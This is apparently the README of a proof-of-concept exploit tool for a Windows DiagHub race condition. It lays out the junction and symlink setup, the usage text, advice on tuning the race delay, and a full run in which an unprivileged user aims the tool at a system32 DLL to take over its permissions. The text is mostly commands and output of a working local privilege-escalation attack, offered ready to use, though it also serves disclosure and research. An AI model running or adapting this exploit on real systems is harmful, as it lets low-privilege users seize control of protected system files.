 - `Etw` - directory junction originally pointing to etw - this is the path specified for diaghub

- `etw` - directory used by DiagHub originally to save its payload

- `ETW` - directory junction pointing to \RPC Control

- `\\?\RPC Control\Report.guid` link pointing to the file to modify its permissions

A fully working example:

```
C:\111\bin>whoami
windows-10-dev-\unprivileged

C:\111\bin>icacls c:\Windows\system32\dropped.dll
c:\Windows\system32\dropped.dll NT AUTHORITY\SYSTEM:(I)(F)
                                BUILTIN\Administrators:(I)(F)
                                BUILTIN\Users:(I)(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)

Successfully processed 1 files; Failed processing 0 files


C:\111\bin>DiagHubSetNamedSecurityInfoTakeover.exe
Usage: DiagHubSetNamedSecurityInfoTakeover path-to-a-dir-for-scratch path-to-file-to-take-over [delay_ms]

Context:
There is a race condition to win. The operations and their order in DiagHub:
1) lock file created
2) metadata.xml file created
3) SetNamedSecurityInfoW is called on the directory

Successful exploitation needs a junction point to be replaced between 2 and 3.
If we are too fast, the service won't be able to create metadata.xml (and will throw)
If we are too slow, SetNamedSecurityInfoW is invoked on the legit target.

This tool monitors the presence of the lock file. Once it shows up, it sleeps a little (3rd parameter)
then it replaces the junction point. Suggestion: start with zero delay (which is also the default).
If you see an exception, it means the delay should be increased a bit (recommendation: 10ms)
If you don't encounter an exception, but the permissions of the destination file are still the original
you need to decrease the delay.

While this might sound complicated, my experience is that no delay usually works, as SetNamedSecurityInfoW
is invoked even when the metadata.xml file couldn't be created.

C:\111\bin>DiagHubSetNamedSecurityInfoTakeover.exe c:\111\workdir c:\Windows\system32\dropped.dll
Case sensitive dir created successfully c:\111\workdir\diaghub-acl-takeover-poc
Exeucuting command: CreateSymlink.exe c:\111\workdir\diaghub-acl-takeover-poc\ETW\Report.DACC1E2D-8935-48EE-B65E-067C51F9E2F2 "c:\Windows\system32\dropped.dll"
Preparation succeeded, using report dir Report.DACC1E2D-8935-48EE-B65E-067C51F9E2F2
Exeucuting command: VSDiagnostics.exe start DACC1E2D-8935-48EE-B65E-067C51F9E2F2 /loadAgent:e485d7a9-c21b-4903-892e-303c10906f6e;DiagnosticsHub.StandardCollector.Runtime.dll /scratchLocation:c:\111\workdir\diaghub-acl-takeover-poc\Etw
Opened Link \RPC Control\Report.DACC1E2D-8935-48EE-B65E-067C51F9E2F2 -> \??\c:\Windows\system32\dropped.dll: 00000130
Press ENTER to exit and delete the symlink

Microsoft (R) VS Standard Collector

Creating instance of StandardCollector 42cbfaa7-a4a7-47bb-b422-bd10e9d02700 (Windows Native)
```
